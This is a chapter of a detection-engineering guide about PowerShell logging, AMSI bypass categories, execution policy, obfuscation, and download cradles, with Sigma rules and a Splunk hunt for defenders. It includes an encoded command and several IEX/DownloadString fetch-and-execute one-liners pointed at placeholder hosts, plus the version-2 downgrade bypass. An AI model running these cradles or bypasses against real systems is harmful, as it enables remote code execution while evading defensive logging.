


# Part 10 — PowerShell Detection Engineering

## Why this part exists

PowerShell is simultaneously the most heavily used administrative shell on the Windows estate and the single most reused execution vector in modern intrusions — Domain Admins run it every day, and so does every post-exploitation framework built since 2013. That overlap is the entire problem this part exists to solve: the moment you build a detection around "PowerShell ran," you're building a detection around a tool your own IT department invokes thousands of times a day. Part 3 already scored PowerShell telemetry at a coverage level (visibility, blind spots, retention) alongside every other host source. This part goes deep on the one log source that overlap makes hardest to get right: what Event IDs 4103 (Executing Pipeline) and 4104 (Creating Scriptblock text) actually capture, why AMSI is a scan point and not a wall, why execution policy stops nobody, and how encoding, obfuscation, and download cradles all try to get past the first three. Part 11 (Endpoint Detection Engineering) is explicitly barred from re-covering PowerShell detection logic — whatever gets built here is the one place in the book it lives.

## 1. Scope: what this part owns, and what it doesn't

**[CONCEPT]** This part owns PowerShell telemetry *and* PowerShell detection logic — an exception to the usual telemetry-layer/analytic-layer split the rest of the book holds to, made explicit in the scope table in `BOOK-INDEX.md`. Part 3 covers PowerShell only at the scoring level (does it exist, how complete, how much does it cost to retain); this part covers the actual fields, the actual bypass surface, and the actual detection rules. Part 9 (Sysmon) is not re-taught here — where a detection needs a Sysmon process-creation or network-connection event to correlate against, it's referenced by ID, not re-explained. Part 11 does not re-cover PowerShell at all; any cross-OS LOLBin discussion there that happens to involve PowerShell links back here instead of restating the logic. Part 30 (Correlation Engineering) and Part 33 (Risk-Based Detection) own the general mechanics of joining events across sources and scoring accumulated signals — this part uses both concepts but doesn't redefine them.

This part does not cover:

- General command-line obfuscation across other shells (`cmd.exe`, `bash`) — that's Part 11.
- Constrained Language Mode and WDAC/AppLocker policy design as prevention controls — mentioned only as the correct replacement for execution policy, not designed here.
- Risk scoring of PowerShell signals against other weak signals — that's Part 33's job once this part has defined what the signals are.

> **Detection Autopsy — "PowerShell execution = malicious"**
>
> **The rule:** Alert on every process-creation event where the new process image is `powershell.exe` or `pwsh.exe`.
>
> **Why it shipped:** PowerShell shows up in nearly every post-exploitation writeup and most commodity malware chains past initial access, and "alert on the binary name" is a one-line filter against telemetry every estate already has — cheap to write, easy to justify in a design review as "covering a known attacker tool."
>
> **How it failed:** PowerShell is also the delivery mechanism for Desired State Configuration, SCCM/Intune baseline scripts, AV/EDR agent health checks, Exchange and Azure management tooling, and most scheduled-task automation on a modern Windows estate — on a few thousand endpoints that's easily tens of thousands of legitimate launches a day. The rule either gets an exclusion list that grows until it excludes the exact parent-process/account combination an attacker would use, or it gets left on and ignored, which is functionally the same as not having it.
>
> **The fix:** Deferred. Sections 2 through 7 of this part build the actual replacement — logging content, not just presence; AMSI and encoding as signals, not verdicts; network correlation as the thing that turns a weak signal into a confident one. The full teardown of this exact rule, cross-referenced against the five other naive rules seeded elsewhere in the book, ships in Part 40.

## 2. PowerShell logging fundamentals: 4103 and 4104

**[CONCEPT]** Modern PowerShell (5.0 and later; 7.x/PowerShell Core inherits the same model) exposes three logging tiers via ETW: transcription (writes a text transcript to disk per session, off by default and rarely deployed at scale because of the disk cost), module logging (Event ID 4103), and script block logging (Event ID 4104). This part focuses on 4103 and 4104 because they're the two an estate can realistically deploy fleet-wide and the two everything in §5–§7 depends on.

> **Engineering Reality**
> Neither Event ID 4103 (Executing Pipeline) nor Event ID 4104 (Creating Scriptblock text) is enabled by default in any supported Windows version as of this writing. Both require Group Policy — "Turn on Module Logging" and "Turn on PowerShell Script Block Logging" under Administrative Templates > Windows Components > Windows PowerShell — applied and confirmed on every host that runs PowerShell, not just domain controllers and servers. An unconfigured estate produces zero 4103/4104 events and zero errors; every detection in this part depends on that GPO being applied, and an empty result set from any of them proves nothing about whether an attacker ran PowerShell — it only proves the logging pipeline needs to be checked first.

> **Engineering Reality**
> "7.x/PowerShell Core inherits the same model" is true of the logging design, not automatically true of what lands in the channel this part's queries read. PowerShell 7 on Windows registers its own ETW provider, separate from Windows PowerShell 5.1, and by most accounts writes its 4103/4104 events to a distinct Event Viewer channel (commonly documented as `PowerShellCore/Operational` rather than `Microsoft-Windows-PowerShell/Operational`) — the exact channel name and behavior have varied across 7.x releases, so treat the specific name as something to confirm on your own build rather than a fixed constant. The Script Block Logging GPO enables logging on both engines; it does not guarantee your SIEM is forwarding whichever channel `pwsh.exe` actually writes to. An estate that only collects `Microsoft-Windows-PowerShell/Operational` keeps the GPO showing "enabled," keeps getting 4104 events for `powershell.exe`, and silently stops getting them for `pwsh.exe` — with no error anywhere, because the events may simply be landing in a channel nothing is reading. Verify 4104 events are actually arriving for `pwsh.exe` — and confirm which channel they're arriving on — on any host where PowerShell 7 is installed.

### 2.1 4103 — Executing Pipeline

**[ENGINEERING]** Event ID 4103 (Executing Pipeline) logs pipeline execution details for every cmdlet call once module logging is enabled: the cmdlet name, parameter names, and (depending on the module and PowerShell version) some parameter values, written to the `Microsoft-Windows-PowerShell/Operational` log. It's verbose — a single scripted task can generate dozens of 4103 entries — and its parameter-value capture is inconsistent across modules, since a module has to opt in to logging its own parameter payloads. Treat 4103 as a secondary, pipeline-shaped view of what ran, useful for reconstructing sequence and cmdlet usage, not as the primary content source.

### 2.2 4104 — Creating Scriptblock text

**[DETECTION ENGINEER]** Event ID 4104 (Creating Scriptblock text) is the primary telemetry source this part builds detections against. It logs the literal text of every script block PowerShell's parser evaluates — including one logged automatically at `Warning` level, independent of the general enable/disable setting, whenever the parser's own heuristics flag content as suspicious (a short, built-in keyword/pattern list Microsoft doesn't publish in full and revises across releases). Key fields:

| Field | What it holds |
|---|---|
| `ScriptBlockText` | The literal script content the engine parsed — this is the field every detection in §5–§6 filters on. |
| `ScriptBlockId` | A GUID grouping all log entries belonging to the same script block, including split entries for content over the per-event size limit. |
| `Path` | The originating `.ps1` file path, or empty for content that never touched disk (piped, `-Command`, in-memory `IEX`). |
| `MessageNumber` / `MessageTotal` | Sequence markers when one script block's text is split across multiple 4104 events because it exceeds the single-event size limit. |

A blind spot worth naming immediately: content assembled and invoked entirely through .NET reflection (`[System.Reflection.Assembly]`, dynamic method invocation) without ever forming a plain-text script block the PowerShell parser evaluates as PowerShell syntax can avoid populating `ScriptBlockText` with the payload at all — the parser can only log what it parses.

> **Blind Spot**
> 4104 captures what the PowerShell *parser* evaluates as script text — it does not capture arbitrary bytes executed via .NET reflection, shellcode injected into the process by an external loader, or anything run by a second PowerShell engine instance the attacker downgraded to version 2 (see §3), which predates script block logging and AMSI integration entirely. A clean 4104 result set on a host where PowerShell definitely ran is a reason to check for a version-2 downgrade or a non-scripted invocation path, not a reason to conclude nothing happened.

## 3. AMSI: concept and bypass surface (defensive framing)

**[CONCEPT]** The Antimalware Scan Interface (AMSI) is a Windows interface, not a scanner itself — it's the hook point that lets any registered antivirus/EDR product request a scan of content just before a scripting engine (PowerShell, VBScript, JScript, Office macros) executes it, including content that was decoded or deobfuscated at runtime and never existed as a static file on disk. `amsi.dll` loads into the PowerShell process and calls out to whichever engine is registered (Windows Defender by default, or a third-party EDR that's registered its own provider) for a verdict on each block of content just before execution.

**[ANALYST]** AMSI itself doesn't log a PowerShell-specific event — the verdict shows up in the registered scanning engine's own detection log (Windows Defender's operational log, or the equivalent EDR alert), correlated back to the PowerShell process by timestamp, PID, and script block. Treat an AMSI-sourced block/detection alert as a strong, but not absolute, true-positive signal: it means a specific scanning engine flagged specific content, not that content had no path to still execute — see the bypass discussion below.

> **Detection Autopsy — "AMSI blocked it, so we're covered"**
>
> **The rule:** Treat an AMSI detection/block event as sufficient standing coverage for PowerShell-based malicious content, with no additional 4104-based detection layered behind it.
>
> **Why it shipped:** AMSI catches a genuinely large share of commodity obfuscated PowerShell out of the box, and "the AV already blocks it" is an easy line item to close out a coverage gap on a spreadsheet.
>
> **How it failed:** AMSI is a scan point one product registers against, evaluated at one moment in a script's execution. It has a documented and actively exploited bypass surface (in-memory patching of the AMSI scan function, reflection-based tampering with the provider's initialization state, and forcing a downgrade to the PowerShell version 2 engine, which never calls AMSI at all). An estate relying on AMSI as the *only* PowerShell control has no detection at all for the exact population of attackers who know this.
>
> **The fix:** AMSI verdicts are one signal feeding a detection, not the detection — §5–§7 build the 4104-based, encoding-aware, network-correlated logic that has to exist whether or not AMSI fires on a given attempt.

**[DETECTION ENGINEER]** In defensive terms, the categories of AMSI bypass worth building detection intent around — described here at the concept level, deliberately not as operational how-to — are: patching the in-process AMSI scan function so it always returns a clean verdict, tampering with the provider's initialization/context object so the scan call never reaches a real engine, and avoiding AMSI's coverage entirely by downgrading the PowerShell engine to version 2 (`powershell -version 2`), which predates AMSI integration by several years and also predates script block logging. Detecting the *attempt* generally means watching for the downgrade itself (see the callout below) or for process-level tampering indicators from EDR memory-integrity telemetry (Part 11's territory, not re-derived here) rather than trying to detect every method of patching AMSI in memory, which changes faster than any static signature list can track.

**MITRE:** T1562.001 (Impair Defenses: Disable or Modify Tools).

> **Blind Spot**
> The Windows PowerShell version 2 engine, where still installed as an optional feature, has no AMSI integration and no script block logging — an attacker who runs `powershell -version 2` on a host where that engine is still present executes entirely outside both controls this part is built around. The detection isn't inside this blind spot; it's the presence of the blind spot itself. Alert on version-2 engine invocation directly (a distinct, low-volume, high-signal event on any host built after PowerShell 5 shipped), and treat the engine's continued presence on any host as a finding to remediate, not just detect around.

## 4. Execution policy as a non-control

**[CONCEPT]** PowerShell's execution policy (`Restricted`, `AllSigned`, `RemoteSigned`, `Unrestricted`, `Bypass`) governs whether the shell will run a script *by default when invoked interactively in the ordinary way* — it is not a security boundary, and Microsoft's own documentation says so directly. Every commonly cited bypass is a single flag or a few lines, not an exploit: `powershell.exe -ExecutionPolicy Bypass -File script.ps1`, piping script content into `-Command` instead of invoking a `.ps1` file, or loading and invoking code via .NET reflection, which never consults the execution policy at all because no `.ps1` file is ever run.

> **SOC Management View**
> Execution policy gets budgeted and reported as if it were a prevention control — "we enforce `AllSigned`, so unauthorized scripts can't run" — and that's a false assurance a CISO conversation needs to correct directly, not tune around. The actual prevention controls for unauthorized code execution in the PowerShell engine are Constrained Language Mode and WDAC/AppLocker application control, which restrict what the *language* and the *binary* can do regardless of how the script was invoked. If execution policy is the only PowerShell control in a risk register, the register is wrong, not just incomplete — reframe the line item as "logging and behavioral detection" (this part) plus "application control" (a WDAC/AppLocker program, out of this part's scope) rather than as a single closed checkbox.

**[DETECTION ENGINEER]** Because execution policy stops nothing an even mildly capable attacker cares about, don't build detection logic that treats a restrictive policy setting as reducing risk, and don't build a detection that fires on `-ExecutionPolicy Bypass` alone — plenty of legitimate deployment tooling (SCCM, Intune, most third-party PowerShell-based installers) passes that same flag routinely, because it's the documented way to run a script non-interactively without prompting. It's a weak signal worth carrying into a correlated or risk-scored rule (Part 30, Part 33), never a standalone one.

## 5. Encoding and obfuscation

### 5.1 `-EncodedCommand` and Base64

**[DETECTION ENGINEER]** The `-EncodedCommand` (or `-enc`) parameter takes a Base64-encoded, UTF-16LE string and is the single most common obfuscation primitive in both commodity malware and legitimate remote-execution tooling — that dual use is why it can't be a standalone detection. The parameter value is visible on the command line (captured via Sysmon Event ID 1 (Process Create) or Windows Security's process-creation command-line auditing, Part 8's and Part 9's territory) and, once the engine decodes and parses it, the *decoded* content lands in `ScriptBlockText` via 4104 regardless of the original encoding — this is the main reason 4104 defeats simple Base64 obfuscation on its own, without needing a decode step in the detection query.

```powershell
# CONCEPTUAL SAMPLE — illustrates the shape of an encoded invocation, not a captured real sample
powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGkAbwAvAGEALgBwAHMAMQAnACkA
```

> **False Positive Trap**
> Configuration-management tooling — Ansible's `win_shell`/WinRM transport, Chef, Puppet, and PowerShell DSC itself — routinely wraps commands in `-EncodedCommand` specifically to avoid quoting and escaping problems across a remote transport, not to hide anything. A rule that alerts on the bare presence of `-EncodedCommand` fires on every one of those legitimate runs. The fix: never alert on the flag alone — decode the payload (trivial: Base64 UTF-16LE) and evaluate the *decoded content* against the same suspicious-pattern logic in §5.2/§6, and correlate the parent process and account against known automation service accounts before treating a hit as noteworthy.

### 5.2 String obfuscation beyond encoding

**[DETECTION ENGINEER]** Beyond Base64, attackers (and obfuscation tools like Invoke-Obfuscation) use string concatenation (`'I'+'EX'`), backtick character insertion (`I`E`X`), the format operator (`'{0}{1}' -f 'IE','X'`), character-code arrays (`[char[]](73,69,88) -join ''`), and case randomization to defeat naive substring matching against tokens like `IEX` or `Invoke-Expression`. This is the second reason 4104 matters more than the raw command line: PowerShell's parser has to resolve all of that at parse time to actually run the code, and the *result* of that resolution is closer to what ends up represented in the script block content the engine logs than the original obfuscated source is — though a determined attacker can still nest obfuscation layers (an obfuscated string that decodes to another obfuscated string) deeply enough that a single-pass keyword filter over `ScriptBlockText` still misses it, which is exactly what §9's hunt is built to catch.

The table below maps common suspicious tokens seen in `ScriptBlockText` to the behavior they typically indicate — this is a starting keyword set for a detection rule, not an exhaustive list, and every row on it has a legitimate use.

| Token / pattern | Typical indicated behavior | Legitimate use that also matches |
|---|---|---|
| `IEX` / `Invoke-Expression` | Dynamic execution of a string as code — the near-universal last step of a download cradle. | Some legacy deployment and profile-loading scripts. |
| `Net.WebClient` / `DownloadString` / `DownloadFile` | In-memory or disk download, feeding a cradle. | Custom update-checker or installer scripts. |
| `Invoke-RestMethod` / `iwr` / `irm` / `wget` / `curl` | Same fetch primitive as `Invoke-WebRequest` (`iwr`/`wget`/`curl` are its built-in aliases; `irm` aliases `Invoke-RestMethod`) — `ScriptBlockText` logs the literal alias text typed, not the resolved cmdlet name, so a keyword list built only from full cmdlet names misses these. | Any script or interactive one-liner using the shorter alias out of habit. |
| `-EncodedCommand` / `FromBase64String` | Obfuscated payload delivery or decode. | Remote-execution tooling (§5.1). |
| `[Reflection.Assembly]::Load` | Loading a .NET assembly from a byte array, often bypassing on-disk AV scanning. | Legitimate custom .NET tooling loaded at runtime. |
| `-WindowStyle Hidden` / `-NoProfile` | Suppressing visible UI, common in unattended execution — attacker or scheduled task alike. | Any non-interactive scheduled automation. |
| `System.IO.Compression` | Runtime decompression of a payload, often paired with encoding. | Legitimate log/archive-handling scripts. |

**MITRE:** T1027 (Obfuscated Files or Information), T1027.010 (Command Obfuscation).

## 6. Download cradles

**[DETECTION ENGINEER]** A download cradle is a one-liner that fetches remote content and executes it in the same script block — most commonly entirely in memory, though a disk-touching variant exists too (see the third example below). The pattern is behind most PowerShell-based initial-stage malware regardless of which variant is used. The canonical shapes:

```powershell
# CONCEPTUAL SAMPLE — illustrates the cradle shape; not a captured real sample
IEX (New-Object Net.WebClient).DownloadString('http://example.io/a.ps1')
Invoke-WebRequest -Uri 'http://example.io/a.ps1' -UseBasicParsing | Invoke-Expression
Start-BitsTransfer -Source 'http://example.io/a.ps1' -Destination "$env:TEMP\a.ps1"; & "$env:TEMP\a.ps1"
```

All three end the same way regardless of which .NET class or cmdlet fetched the content: a network connection to an attacker-controlled host, followed immediately (same script block, same process) by execution of whatever came back — the first two entirely in memory, the third via a short-lived file BITS writes to disk before the immediate `&` invocation. The detection value is in that fetch-then-execute pairing, not in any single call, and not in whether disk was touched — `Invoke-WebRequest` alone is one of the most common cmdlets in the entire language, used constantly for entirely benign reasons.

**MITRE:** T1105 (Ingress Tool Transfer).

## 7. Network correlation

**[THREAT HUNTER]** A download cradle is invisible to script-content inspection alone if the fetched content never gets logged (a script block that only performs the download and hands the result to a *different* process, or one that immediately clears in-memory history). What it can't avoid is the network call itself: a DNS resolution followed by an outbound connection, sourced from a process — `powershell.exe`/`pwsh.exe` — that has no ordinary business making arbitrary outbound web requests on most endpoint roles. Joining PowerShell process telemetry to DNS query logs and outbound connection telemetry on a shared entity key (the process's `ProcessGuid`, per Sysmon, or the session/host + timestamp window where a `ProcessGuid` isn't available) turns a script-content signal that can be evaded into a network signal that's much harder to avoid, because the attacker still needs the data to actually arrive.

**Figure 10.1 (FIG-10-01) — PowerShell telemetry and network-correlation pipeline.** *CONCEPTUAL.* Illustrates how script-content telemetry (4103/4104) and network telemetry (DNS, connection logs) from the same PowerShell invocation converge in the SIEM on a shared host/time/`ProcessGuid` key — the join this section's detections depend on, not a capture from a real run.





The DNS side of that join has real structure worth grounding in an actual log, not an invented one:

```text
Sep 15 08:32:47 dnsmasq[2221]: query[A] mykulprint.atrapa.deloitte.com from 192.168.1.169
Sep 15 08:32:47 dnsmasq[2221]: cached mykulprint.atrapa.deloitte.com is NXDOMAIN
Sep 15 08:32:49 dnsmasq[2221]: query[A] mykulprint.atrapa.deloitte.com from 192.168.1.169
```

**Figure 10.2 — DNS query log fields available for correlation.** *REAL LAB EXAMPLE.* Captured from the home lab's Pi-hole/dnsmasq resolver (CT100) on 2026-09-15; this is ordinary LAN query traffic, not a captured PowerShell cradle, and is included to ground the query/response/timestamp/source-IP field shape a real DNS log actually has — the same field shape a Windows DNS client log or a Zeek `dns.log` entry would need to supply for the join in Figure 10.1, regardless of which OS or resolver produced it. See `lab/evidence/ct100-pihole-dns-query-log.txt` for the full capture.



**Figure — Event ID 4104 entry for a download-cradle script block.** *CONCEPTUAL — illustrative field breakdown; not a captured screenshot.* Shows the `ScriptBlockText` field populated with cradle syntax and the accompanying process-creation/network-connection events from the same host, supporting the worked example in §8.

**MITRE:** T1071.004 (Application Layer Protocol: DNS).

## 8. Worked example: from signal to rule

**[DETECTION ENGINEER]** This section builds two Sigma rules from the signals defined above. Both target Windows PowerShell's `Microsoft-Windows-PowerShell/Operational` log (Event ID 4104) and assume Script Block Logging is confirmed enabled per the Engineering Reality callout in §2.

**DET-10-01** flags script block content combining a download-cradle pattern with an execution primitive in the same block — the pairing from §6, not either half alone.

```yaml
title: PowerShell Download Cradle - Fetch Combined with Inline Execution
id: DET-10-01
status: experimental
logsource:
  product: windows
  category: ps_script
  definition: 'Requires Event ID 4104 (Script Block Logging) enabled via GPO'
detection:
  fetch:
    ScriptBlockText|contains:
      - 'Net.WebClient'
      - 'DownloadString'
      - 'DownloadFile'
      - 'Invoke-WebRequest'
      - 'Invoke-RestMethod'
      - 'BitsTransfer'
      - 'iwr '
      - 'irm '
      - 'wget '
      - 'curl '
  execute:
    ScriptBlockText|contains:
      - 'IEX'
      - 'Invoke-Expression'
  condition: fetch and execute
falsepositives:
  - Legitimate installer or update-checker scripts that fetch and immediately run a signed
    payload; confirm signer and destination host before escalating (see False Positive Trap
    below).
level: high
```

*Platform/version: Sigma targeting Windows Event ID 4104 via any SIEM's Sigma backend; requires Script Block Logging GPO applied fleet-wide (§2).* Its main limitation is exactly the False Positive Trap below — the pattern alone doesn't distinguish an attacker's cradle from a legitimate one. A second, structural limitation: this condition evaluates a single 4104 event's `ScriptBlockText`. When a script block exceeds the per-event size limit and is split across multiple 4104 entries sharing one `ScriptBlockId` (the `MessageNumber`/`MessageTotal` fields from §2.2), the `fetch` keyword can land in one event and `execute` in another, and neither event alone satisfies `fetch and execute` — the rule needs the backend to reassemble split entries by `ScriptBlockId` before matching, which not every SIEM's Sigma pipeline does by default. Confirm reassembly behavior before trusting a clean result against a long or heavily nested script. The `fetch` list above includes the built-in cmdlet aliases (`iwr`, `irm`, `wget`, `curl`) alongside the full cmdlet names for the reason given in the §5.2 table: `ScriptBlockText` logs whichever form was actually typed.

> **Blind Spot**
> The `execute` half of this rule only matches `IEX`/`Invoke-Expression`. It doesn't see `& (...)`, `. (...)` (call and dot-source operators), or `[scriptblock]::Create($x).Invoke()` — all standard PowerShell ways to run a string or scriptblock that carry no fixed keyword to match on, and all in active use by post-exploitation frameworks specifically to dodge IEX-keyword rules like this one. A script block that pairs any `fetch` keyword with one of these instead of `IEX` produces a 4104 event this rule never flags. There's no keyword-list fix for this that doesn't also match a large share of ordinary PowerShell (`&` and `.` are two of the most common operators in the language); closing this gap means either a structural check for "fetch keyword followed by a call/dot-source/`.Invoke()` operator within the same block" at the query-language level, or leaning on §7's network correlation (DET-10-02), which doesn't care what triggered the outbound connection.

> **False Positive Trap**
> Self-updating internal tools (patch-deployment scripts, custom agent installers) legitimately fetch and immediately execute a script in one block, matching DET-10-01 exactly. The fix: enrich the alert with the destination domain's reputation/first-seen status and the signer of the eventually-executed content where available, and maintain a short allowlist of known internal update-distribution hosts reviewed on the same cadence as any other detection exception (Part 42's exception-review discipline) — do not drop the `execute` half of the condition to "fix" this, since that's the half that makes the rule mean anything at all.
>
> Expect this to be noisy pre-tuning: on an estate with active SCCM/Intune/DSC-based deployment, this is untested against your specific estate's automation mix, but treat "tens of matches a day, concentrated on a handful of deployment-tool source hosts and service accounts" as the realistic starting point, not the low-single-digit hit count the rule's `level: high` might suggest. The allowlist above is what brings that down, not a tighter keyword match.

**DET-10-02** raises confidence by requiring the same host to show a matching outbound DNS/connection event within a five-minute correlation window of the 4104 match — the network-correlation join from §7, expressed as a rule rather than a diagram.

```yaml
title: PowerShell Download Cradle Confirmed by Network Correlation
id: DET-10-02
status: experimental
logsource:
  product: windows
  category: ps_script
detection:
  cradle_signal:
    # Same fetch condition as DET-10-01 (see that rule for the full alias-inclusive list)
    ScriptBlockText|contains: ['Net.WebClient', 'DownloadString', 'Invoke-WebRequest', 'Invoke-RestMethod', 'iwr ', 'irm ', 'wget ', 'curl ']
  correlation:
    type: temporal
    join_on: [host, ProcessGuid]
    window: 5m
    requires:
      - source: dns_query_log
        field: query_name
        condition: not_in_top_1m_domains
      - source: connection_log
        field: dest_port
        condition: 'in [80, 443, 8080]'
  condition: cradle_signal and correlation
falsepositives:
  - A rarely-queried but legitimate internal or vendor domain triggers the same join; the
    domain-rarity check is a threshold, not a verdict.
  - Expect this to fire far less often than DET-10-01 — the added domain-rarity and port
    requirements cut most of the SCCM/DSC/internal-tooling noise, since that traffic mostly
    resolves to well-known, frequently-queried internal or vendor domains. Treat "single
    digits a week on a several-thousand-endpoint estate" as a rough starting expectation,
    untested against your own environment, not a validated figure — confirm against your
    own domain-rarity feed's behavior before trusting the level below unmodified.
level: critical
```

*Platform/version: illustrative SIEM correlation-rule shape (Part 30's temporal-join mechanics) layered on the Sigma detection above; the exact correlation syntax differs by platform and is not a literal Sigma construct.* Its main limitation is entity resolution: this join only works if `ProcessGuid` (or an equivalent stable key) survives from the process-creation event through to the network-connection event on the platform doing the correlation — confirm that before trusting a `correlation` field showing empty as "no network activity occurred."

> **Blind Spot**
> The confidence uplift this rule adds over DET-10-01 depends on two things an attacker controls. First, `requires` a `dns_query_log` match — a cradle that fetches from a hardcoded IP literal instead of a domain name never generates a DNS query at all, so the `correlation` clause never resolves true and the rule never fires, regardless of how obviously malicious the fetch is. Second, the `not_in_top_1m_domains` check passes cleanly for payloads hosted on infrastructure that genuinely is in the top 1M — a GitHub Gist, a Pastebin raw link, a Discord CDN attachment URL — which is exactly why commodity loaders increasingly use that infrastructure instead of standing up their own domain. Neither case makes the intrusion invisible: DET-10-01 still fires on the `ScriptBlockText` content alone in both scenarios. What's lost is specifically the `critical`-level network confirmation this rule is meant to add, not detection coverage itself.

> **Detection Test**
> **Setup:** Windows test host with Script Block Logging (4104) enabled via GPO, no domain membership required.
> **Action:** `powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://<test-listener-ip>/harmless.ps1')"` against a listener you control on an isolated lab network segment.
> **Expected result:** One or more Event ID 4104 entries with `ScriptBlockText` containing both `Net.WebClient`/`DownloadString` and `IEX`, matching DET-10-01; a corresponding outbound connection to `<test-listener-ip>` within the same process, satisfying DET-10-02's correlation clause if network telemetry is wired into the same pipeline.

## 9. Hunting what the standing rules miss

**[THREAT HUNTER]** DET-10-01 and DET-10-02 both depend on a keyword list matching something recognizable in `ScriptBlockText`. Nested obfuscation — a string that decodes to another obfuscated string, or a cradle built entirely from `[char[]]` arrays and format-operator reassembly that only resolves to a recognizable cmdlet name at the moment the interpreter actually calls it — can produce a script block whose *logged* text never contains any of the table in §5.2, even though the parser's own internal resolution had to touch all of it to run the code.

**Threat hypothesis:** A 4104 entry logged at `Warning` level (triggered by PowerShell's own built-in suspicious-content heuristic, independent of any keyword list this part's rules maintain) with `ScriptBlockText` that does *not* match DET-10-01's `fetch`/`execute` conditions represents obfuscation sophisticated enough to evade keyword matching, not an absence of suspicious behavior.

> **Hunter's Note**
> Pull every `Warning`-level 4104 event first, before running any keyword search at all — PowerShell's own parser already flagged that content as unusual for reasons that don't have to overlap with your keyword list, and it costs nothing to check whether its heuristic caught something yours didn't.

**HUNT-10-01** — pull all `Warning`-level 4104 events over a trailing 30-day window, exclude any `ScriptBlockText` that already matches an existing detection's keyword set (to avoid re-finding what's already covered), and manually review what's left for a recognizable pattern that could become a new keyword or structural rule.

```spl
index=windows sourcetype=WinEventLog:Microsoft-Windows-PowerShell/Operational EventCode=4104
| search Type="Warning"
| regex ScriptBlockText!="(?i)(IEX|Invoke-Expression|DownloadString|EncodedCommand)"
| table _time, ComputerName, ScriptBlockText
| sort - _time
```

*Platform/version: illustrative SPL against a Splunk-ingested `Microsoft-Windows-PowerShell/Operational` source.* The severity field name in the filter above (`Type`) is the classic Splunk Windows TA extraction for the event-log severity level; confirm the actual field name against your own add-on and ingest path before deploying this literally — some TA versions and XML-based ingest configurations expose this as `Level` or a custom field instead, and a silent field-name mismatch here returns zero rows with no error, which reads as "no warnings" rather than "wrong field." Its main limitation beyond that is volume-dependent noise: on an estate with heavy legitimate use of obfuscation-adjacent language features (some PowerShell-based commercial installers legitimately trip the parser's warning heuristic), this hunt can return dozens of benign hits per run and needs a human triage pass, not a standing alert — the reason this stays a hunt instead of graduating to a rule.

A hunt with no finding still needs a documented output: if a 30-day pull returns nothing at `Warning` level across the estate, that's either a genuinely clean population or a sign the GPO isn't applied everywhere — check Engineering Reality (§2) before recording "no findings" as a real negative result.

## 10. Coverage recap

**[SOC MANAGEMENT]** What this part leaves an estate with, stated in six-tier terms (Part 41's scale): script-content inspection via 4104 reaches RELIABLE DETECTION for keyword-matchable cradles and encoded commands once the GPO is confirmed applied; network-correlated cradle detection (DET-10-02) reaches MULTI-SOURCE DETECTION where `ProcessGuid` survives the join; nested/structural obfuscation stays at PARTIAL DETECTION at best, covered only by the hunt in §9 until a pattern from it graduates into a rule. None of this closes the gap the naive rule in §1's Detection Autopsy tried to close with one line — that gap, and the five other naive rules seeded across the book, gets its full accounting in Part 40.
